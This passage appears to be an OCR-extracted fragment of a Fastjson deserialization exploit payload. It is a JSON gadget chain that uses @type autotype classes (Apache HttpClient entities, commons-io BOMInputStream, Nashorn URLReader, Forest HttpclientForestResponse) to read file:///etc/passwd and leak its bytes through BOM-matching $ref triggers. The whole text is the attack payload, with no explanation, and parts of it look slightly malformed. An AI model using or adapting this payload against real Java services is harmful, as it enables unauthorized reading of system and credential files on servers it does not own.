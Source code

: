 ```json
      "entity":{
        "@type": "org.apache.http.HttpEntity",
        "@type": "org.apache.http.entity.InputStreamEntity",
        "inStream":{
            "@type": "org.apache.commons.io.input.BOMInputStream",
            "delegate": {
                "@type": "org.apache.commons.io.input.ReaderInputStream",
                "reader": { 
                    "@type": "jdk.nashorn.api.scripting.URLReader",
                    "url": "file:///etc/passwd"
                },
                "charsetName": "UTF-8",
                "bufferSize": 1024
            },
            "boms": [{
                "charsetName": "UTF-8",
                "bytes": [
                    35,
                ]
            }]
        }
      }
  },
  "trigger3": {
      "$ref": "$.trigger2.entity.inStream"
  },
  "trigger4": {
    "$ref": "$.trigger3.BOM"
  },
  "trigger5": {
      "@type": "com.dtflys.forest.backend.httpclient.response.HttpclientForestResponse",
      "entity": {
        "@type": "org.apache.http.entity.InputStreamEntity",
        "inStream": {
          "@type": "org.apache.commons.io.input.BOMInputStream",
          "delegate": {
            "@type": "org.apache.commons.io.input.ReaderInputStream",
            "reader": {
              "@type": "org.apache.commons.io.input.CharSequenceReader",
              "charSequence": {
                "@type": "java.lang.String"{"$ref": "$.trigger4"
              }
            },
            "charsetName":"UTF-8",
            "bufferSize":1024
          },
          "boms":[{
            "charsetName": "UTF-8",
            "bytes": [233]
          }]
        }
      }
    }
}    
```
